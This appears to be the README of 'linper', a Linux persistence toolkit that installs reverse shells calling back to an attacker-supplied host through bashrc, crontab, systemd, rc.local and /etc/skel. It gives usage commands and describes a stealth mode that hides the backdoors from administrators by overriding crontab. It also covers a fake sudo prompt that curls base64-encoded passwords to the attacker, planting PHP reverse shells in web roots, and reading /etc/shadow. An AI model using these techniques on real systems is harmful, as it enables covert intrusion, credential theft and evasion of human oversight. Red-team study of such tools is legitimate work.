 # linper

linux persistence toolkit

## files

- countermeasures/ - ways to harden/monitor common persistence mechanisms
- powershell/ - placeholder for the eventual winper
- CONTRIBUTE.md - notes on contributing to this project
- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me

## features

- enumerate programs that can be used to execute a reverse shells and ways to make the persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for accounts that can login via a password
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords
- place php reverse shells in web server directories

## credit

huge shoutout to the maintainers and contributers of [GTFOBins](https://gtfobins.github.io/) as their great resource laid the groundwork for much of this tool

also, thanks to Null Byte and [this article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea and some of the code behind the _Sudo Hijack Attack_ as implemented in this tool 

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

### emumerate defensive measures

`bash linper.sh --enum-defenses`

`bash linper.sh -e`

### advanced usage

run `bash linper.sh -h` to see all usage examples

## methodology

### installing

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack" that binary

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

### cleaning

1. To remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. To remove shells from crontab, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. To remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. To remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. To remove the `crontab` function installed by `-s, --stealth-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed amd grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

6. To remove the `sudo` function, it looks for the provided RHOST, various variable names used by the function, and the string "function sudo". If all return true, then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- crontab, custom (defualt: every minute)
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary

### web server hijack attack

1. uses /etc/passwd to find the web root
2. installs php reverse shells in all writable directories under web root
